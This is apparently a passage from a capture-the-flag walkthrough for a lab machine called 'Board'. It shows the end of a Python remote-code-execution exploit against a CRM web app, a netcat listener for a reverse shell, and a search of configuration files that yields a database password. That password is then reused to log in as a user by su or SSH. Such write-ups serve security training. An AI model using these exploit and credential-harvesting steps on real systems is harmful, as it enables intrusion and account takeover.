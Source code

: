 ```
        print("[!] Web page is not reachable!")
        sys.exit(1)
    else:
        output = re.findall("block -->\n(.+)</head>", res.text, re.MULTILINE | re.DOTALL)[0].strip()
        print(f"[+] RCE successful! Output of command:\n\n{output}")

def main():
    check_args()
    authenticate()
    rce()

if __name__ == "__main__":
    main()
```

Set up a listener on your machine:

```
nc -lvnp 4444
```

Trigger the payload to get a shell as `www-data`.

# 0x5 Privilege Escalation

Look for sensitive files and configuration details:

```
find /var/www/html/crm.board.htb/ -name "conf.php"
```

Config File:

```
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Switch to the user `larissa` using the credentials found in the configuration file:

```
su larissa
Password: serverfun2$2023!!
```

OR

Get a stable shell using SSH

```
ssh larissa@board.htb
```

Get `user.txt`

# 0x6 Root Privilege Escalation
